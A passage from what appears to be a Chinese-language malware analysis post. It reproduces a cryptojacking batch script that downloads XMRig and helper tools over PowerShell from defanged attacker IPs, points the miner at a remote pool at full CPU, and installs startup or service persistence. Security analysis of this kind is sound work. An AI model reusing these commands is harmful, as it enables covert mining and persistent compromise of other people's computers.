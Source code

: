 

<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h4>XMRIG下載</h4>



<pre class="wp-block-code"><code>echo &#91;*] Downloading MoneroOcean advanced version of XMRig to “%USERPROFILE%\xmrig.zip”
powershell -Command “$wc = New-Object System.Net.WebClient; $wc.DownloadFile(‘http://141.85.161&#91;.]18/xmrig.zip’, ;%USERPROFILE%\xmrig.zip’)”
echo copying to mimu directory
if errorlevel 1 (
echo ERROR: Can’t download MoneroOcean advanced version of xmrig
goto MINER_BAD)</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h4>解壓並安裝</h4>



<pre class="wp-block-code"><code>echo &#91;*] Unpacking “%USERPROFILE%\xmrig.zip” to “%USERPROFILE%\mimu6”
powershell -Command “Add-type -AssemblyName System.IO.Compression.FileSystem; &#91;System.IO.Compression.ZipFile]::ExtractToDirectory(‘%USERPROFILE%\xmrig.zip’, ‘%USERPROFILE%\mimu6’)”
if errorlevel 1 (
echo &#91;*] Downloading 7za.exe to “%USERPROFILE%za.exe”
powershell -Command “$wc = New-Object System.Net.WebClient; $wc.Downloadfile(‘http://141.85.161&#91;.]18/7za.txt’, ‘%USERPROFILE%za.exe’”

powershell -Command “$out = cat ‘%USERPROFILE%\mimu6\config.json’ | %%{$_ -replace ‘\”url\”: *\”.*\”,’, ‘\”url\”: \”207.38.87&#91;.]6:3333\”,’} | Out-String; $out | Out-File -Encoding ASCII ‘%USERPROFILE%\mimu6\config.json’”
powershell -Command “$out = cat ‘%USERPROFILE%\mimu6\config.json’ | %%{$_ -replace ‘\”user\”: *\”.*\”,’, ‘\”user\”: \”%PASS%\”,’} | Out-String; $out | Out-File -Encoding ASCII ‘%USERPROFILE%\mimu6\config.json’”
powershell -Command “$out = cat ‘%USERPROFILE%\mimu6\config.json’ | %%{$_ -replace ‘\”pass\”: *\”.*\”,’, ‘\”pass\”: \”%PASS%\”,’} | Out-String; $out | Out-File -Encoding ASCII ‘%USERPROFILE%\mimu6\config.json’”
powershell -Command “$out = cat ‘%USERPROFILE%\mimu6\config.json’ | %%{$_ -replace ‘\”max-cpu-usage\”: *\d*,’, ‘\”max-cpu-usage\”: 100,’} | Out-String; $out | Out-File -Encoding ASCII ‘%USERPROFILE%\mimu6\config.json’”
set LOGFILE2=%LOGFILE:\=\\%
powershell -Command “$out = cat ‘%USERPROFILE%\mimu6\config.json’ | %%{$_ -replace ‘\”log-file\”: *null,’, ‘\”log-file\”: \”%LOGFILE2%\”,’} | Out-String; $out | Out-File -Encoding ASCII ‘%USERPROFILE%\mimu6\config.json’”
if %ADMIN% == 1 goto ADMIN_MINER_SETUP

if exist “%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup” (
set “STARTUP_DIR=%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup”
goto STARTUP_DIR_OK
)
if exist “%USERPROFILE%\Start Menu\Programs\Startup” (
set “STARTUP_DIR=%USERPROFILE%\Start Menu\Programs\Startup”
goto STARTUP_DIR_OK
)
echo &#91;*] Downloading tools to make gado_miner service to “%USERPROFILE%\nssm.zip”
powershell -Command “$wc = New-Object System.Net.WebClient; $wc.DownloadFile(‘&#91;http://141.85.161&#91;.]18/nssm.zip’, ‘%USERPROFILE%\nssm.zip’)”
if errorlevel 1 (
echo ERROR: Can’t download tools to make gado_miner service
exit /b 1</code></pre>
